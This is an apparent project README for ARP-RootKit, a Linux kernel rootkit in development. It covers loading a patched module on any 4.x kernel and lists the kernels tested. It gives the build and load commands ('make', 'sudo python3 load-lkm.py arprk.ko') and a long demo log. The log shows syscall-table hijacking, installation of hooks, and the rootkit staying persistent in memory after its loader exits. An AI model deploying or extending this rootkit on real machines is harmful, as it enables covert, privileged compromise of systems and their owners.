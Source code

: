# No releases yet
This software is under development.  
There's not even 1 release yet.  
  
In the commit https://github.com/D1W0U/ARP-RootKit/tree/144c7a431d07b4d9fe86c15f9cdf1a2bc9c0c53b everything is prepared to start with syscall hooking.  
Atm, I developed a way to load a linux kernel module into any version of v4.x, by patching the module and loading specially (not so much specially).  
You compile in v4.0.1 for example, or v4.15.1, and it loads. And if you change kernel, just need to patch the module, and it loads.  
  
## Testing this  
Download kernel headers, and be sure you are able to compile linux kernel modules (you've everything needed).  
  
First compile it with: `make`  
Then load by: `sudo python3 load-lkm.py arprk.ko`  
  
If you change the kernel there's no matters (but if it fails, please report). Just issue the load command.  
  
## Tested Linux Kernels

```
vmlinuz-4.0.1-040001-generic  
vmlinuz-4.1.48-040148-generic  
vmlinuz-4.2.8-040208-generic  
vmlinuz-4.3.6-040306-generic  
vmlinuz-4.4.0-101-generic  
vmlinuz-4.5.7-040507-generic  
vmlinuz-4.6.7-040607-generic  
vmlinuz-4.7.10-040710-generic  
vmlinuz-4.8.0-36-generic  
vmlinuz-4.9.80-040980-generic  
vmlinuz-4.10.0-14-generic  
vmlinuz-4.10.0-42-generic  
vmlinuz-4.11.0-13-generic  
vmlinuz-4.12.14-041214-generic  
vmlinuz-4.13.0-31-generic  
vmlinuz-4.13.0-32-generic  
vmlinuz-4.14.17-041417-generic  
vmlinuz-4.15.1-041501-generic
```

# Building deps

On Ubuntu:  
  
`$ sudo apt install make gcc python3 python3-distutils`
  
# Loading the rootkit
  
On Ubuntu:  
  
`$ sudo python3 ./load-lkm.py arprk.ko`  

# Demo
  
```
diwou@silence:~/ARP-RootKit$ sudo python3 ./load-lkm.py arprk.ko
Found possible vmlinuz /boot/vmlinuz-4.15.0-23-generic
code_start   = ffffffff81000000
code_end     = ffffffff81c031d1
rodata_start = ffffffff81e00000
rodata_end   = ffffffff821c61e2

Found sct! 548 syscalls at 0xffffffff81e001a0
Found ia32sct! 385 syscalls at 0xffffffff81e01560
sct     = ffffffff81e001a0
ia32sct = ffffffff81e01560
Found possible vmlinuz /boot/vmlinuz-4.15.0-23-generic
Possible vermagic values for /boot/vmlinuz-4.15.0-23-generic found:
[]
Patching .rela.gnu.linkonce.this_module ...
Found sct! 548 syscalls
sys_delete_module at offset .text+0x1240c0
init = 376
exit = 776
Done!
kernel_base         = ffffffffa3200000
Parameters:
image .text         = ffffffff81000000
image sct           = ffffffff81e001a0
image sct len       = 548
image ia32sct       = ffffffff81e01560
image ia32sct len   = 385
.text size          = 12595665
sys_call_table      = ffffffffa40001a0
ia32_sys_call_table = ffffffffa4001560
Found 1 refs to sys_call_table in kernel's .text
Found 2 refs to ia32_sys_call_table in kernel's .text
vmalloc_start = ffffffffc02b7000
reserved 8192 bytes at ffffffffc02b7000
my_sct zeroed!
my_sct = ffffffffc02b7000, len = 548
reserved 4096 bytes at ffffffffc02ba000.
my_ia32sct zeroed!
ia32_sct cloned at = ffffffffc02ba000
patching ref 0 of sys_call_table ffffffffa3203ad2 ...
value before patch = a40001a0
value after patch = c02b7000
patching ref 0 of ia32_sys_call_table ffffffffa3203c05 ...
value before patch = a4001560
value after patch = c02ba000
patching ref 1 of ia32_sys_call_table ffffffffa3203d75 ...
value before patch = a4001560
value after patch = c02ba000
RK's Kernel info:
kernel_len           = 14168
kernel_paglen        = 16384
kernel_pages         = 4
kernel_start         = ffffffffc0b4d000
kernel_start_pagdown = ffffffffc0b4d000
kernel_addr          = ffffffffc02bc000
kernel_addr_pagdown  = ffffffffc02bc000
Installing the rootkit's kernel ...
RK's Kernel is now installed.
Calling RK's Kernel test function (ffffffffc02bc225) ...
Hello from ARP RK Kernel!
This is the test function.

sys_call_table      = ffffffffa40001a0
ia32_sys_call_table = ffffffffa4001560
my_sct              = ffffffffc02b7000
my_ia32sct          = ffffffffc02ba000
Initializing kernel (ffffffffc02bc2b7) ...
Hello from kernel_init()!
Probably if you arrived here, I'm going to work fine! =)
Hooks installed!
Press ENTER to continue...
Unpatching syscall tables refs ...
unpatching ref 0 of sys_call_table ffffffffa3203ad2 ...
value before patch = c02b7000
value after patch = a40001a0
unpatching ref 0 of ia32_sys_call_table ffffffffa3203c05 ...
value before patch = c02ba000
value after patch = a4001560
unpatching ref 1 of ia32_sys_call_table ffffffffa3203d75 ...
value before patch = c02ba000
value after patch = a4001560
arprk.errors
256
insmod: ERROR: could not insert module arprk.ko: Operation not permitted

Done!
```
  
- NOTE: pay att. to the return -1: `insmod: ERROR: could not insert module arprk.ko: Operation not permitted` it's because rootkit is persistent in memory and we want to unload the loader (arprk.ko is the loader + rk's kernel).
  
Demo tested on:  
- Ubuntu Server Bionic Beaver  
- Linux silence 4.15.0-23-generic #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux  
- Fri Jun 22 17:18:50 UTC 2018  
